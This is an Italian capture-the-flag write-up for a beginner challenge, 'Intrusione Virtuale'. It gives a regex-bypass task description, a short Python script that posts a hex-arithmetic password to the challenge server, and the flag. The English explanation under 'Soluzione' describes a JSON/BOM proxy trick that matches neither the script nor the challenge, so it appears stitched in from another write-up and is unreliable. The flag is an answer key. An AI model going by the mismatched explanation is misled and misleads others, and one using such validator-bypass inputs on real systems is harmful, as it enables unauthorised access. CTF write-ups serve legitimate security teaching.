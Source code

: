 # Intrusione Virtuale

## Descrizione
Salve futuro Hacker di élite! Se pensavi di poter entrare nel nostro esclusivo club segreto senza passare attraverso il fuoco delle nostre Regex difensive, 
ti sei sbagliato di grosso! Abbiamo preparato per te una sfida di registrazione all'avanguardia, e le nostre Regex sono più taglienti di un codice malevolo.

Riuscirai a superare le barriere cibernetiche e a infiltrarti nel nostro sistema con stile da vero hacker? 
Solo coloro che padroneggiano l'arte delle Regex potranno ottenere il titolo di "Intruso Supremo"!

Per ottenere il titolo di 'Intruso Supremo' visita la pagina: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).

HINT: Utilizzare la rappresentazione esadecimale potrebbe esserti d'aiuto.

*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
You should make a JSON that satisfies the following conditions:

The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `dammilaflag`.
The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.
In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
havceCTF{m4l3det7o_3va1}
